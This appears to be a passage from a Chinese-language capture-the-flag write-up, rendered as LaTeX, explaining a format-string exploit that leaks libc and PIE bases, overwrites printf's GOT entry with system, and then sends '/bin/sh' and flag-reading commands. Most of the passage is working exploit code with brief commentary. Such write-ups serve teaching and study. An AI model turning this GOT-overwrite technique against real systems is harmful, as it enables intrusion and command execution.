 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
    \ControlFlowTok{if}\NormalTok{ libc\_base }\OperatorTok{\&} \BaseNTok{0xFFF} \KeywordTok{or}\NormalTok{ pie\_base }\OperatorTok{\&} \BaseNTok{0xFFF}\NormalTok{:}
        \ControlFlowTok{return} \VariableTok{None}                     \CommentTok{\# 兩個 base 都必須頁對齊}
\end{Highlighting}
\end{Shaded}

這是\textbf{最有用的檢查}：如果 libc 版本不對、或 offset
抄錯，這裡就會擋下來。

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{    system     }\OperatorTok{=}\NormalTok{ libc\_base }\OperatorTok{+}\NormalTok{ SYSTEM}
\NormalTok{    printf\_got }\OperatorTok{=}\NormalTok{ pie\_base  }\OperatorTok{+}\NormalTok{ PRINTF\_GOT}

\NormalTok{    payload }\OperatorTok{=}\NormalTok{ build\_write\_payload(printf\_got, system)}
    \ControlFlowTok{if} \StringTok{b"}\CharTok{\textbackslash{}n}\StringTok{"} \KeywordTok{in}\NormalTok{ payload }\KeywordTok{or} \BuiltInTok{len}\NormalTok{(payload) }\OperatorTok{\textgreater{}} \BaseNTok{0xFF}\NormalTok{:}
        \ControlFlowTok{return} \VariableTok{None}                     \CommentTok{\# 含換行會斷、太長會被 fgets 截斷 → 重連換 ASLR}
\NormalTok{    io.sendline(payload)}
\end{Highlighting}
\end{Shaded}

\texttt{0x0a} 檢查必要：目標位址的隨機位元組有約 2\% 機率含
\texttt{0x0a}，那就會斷行。重連一次 ASLR 就換了，所以 retry 迴圈（最多 5
次）就夠。

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{    time.sleep(}\FloatTok{0.5}\NormalTok{)}\OperatorTok{;}\NormalTok{ drain(io, }\FloatTok{0.3}\NormalTok{)}
\NormalTok{    io.sendline(}\StringTok{b"/bin/sh"}\NormalTok{)             }\CommentTok{\# 下一次的 printf(buf) 會變成 system(buf)}
\NormalTok{    time.sleep(}\FloatTok{0.4}\NormalTok{)}\OperatorTok{;}\NormalTok{ drain(io, }\FloatTok{0.3}\NormalTok{)}
\NormalTok{    io.sendline(CMD)                    }\CommentTok{\# cat flag.txt /flag ...; ls {-}la; id; echo DONE}
\NormalTok{    ... 讀到 }\StringTok{"DONE"}\NormalTok{ 為止 ...}
\end{Highlighting}
\end{Shaded}
\end{document}
